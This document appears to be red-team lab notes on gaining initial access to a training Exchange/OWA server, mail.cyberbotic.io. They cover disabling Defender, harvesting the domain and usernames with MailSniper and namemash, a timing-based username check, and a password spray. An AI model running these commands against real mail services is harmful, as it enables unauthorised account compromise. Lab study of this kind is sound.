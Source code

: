 # Initial Compromise

Attack the OWA Exchange service at mail.cyberbotic.io.

## Password Spraying

Tools for password spraying against Office 365 and Exchange:
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [namemash](https://gist.github.com/superkojiman/11076951)

On Attacker Desktop:
  1. Disable Defender's Real-time protection
  2. Import MailSniper in PowerShell: ```ipmo C:\Tools\MailSniper\MailSniper.ps1```
  3. ```Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io```  // gives NetBIOS name of domain
  4. Generate possible usernames from names at [https://www.cyberbotic.io/our-team](https://www.cyberbotic.io/our-team):
    5. ```cd /mnt/c/Users/Attacker/Desktop/```
    6. ```cat names.txt```:
        * Bob Farmer
        * Isabel Yates
        * John King
        * Joyce Adams
    8. Use [namemash](https://gist.github.com/superkojiman/11076951) to generate usernames (if format isn't already known): ```~/namemash.py names.txt > possible.txt```
  9. ```Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt```  // validates usernames using timing attack
  10. Use [MailSniper](https://github.com/dafthack/MailSniper) to spray passwords against valid accounts (beware of login lockouts!):
  11. ```Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022```


 


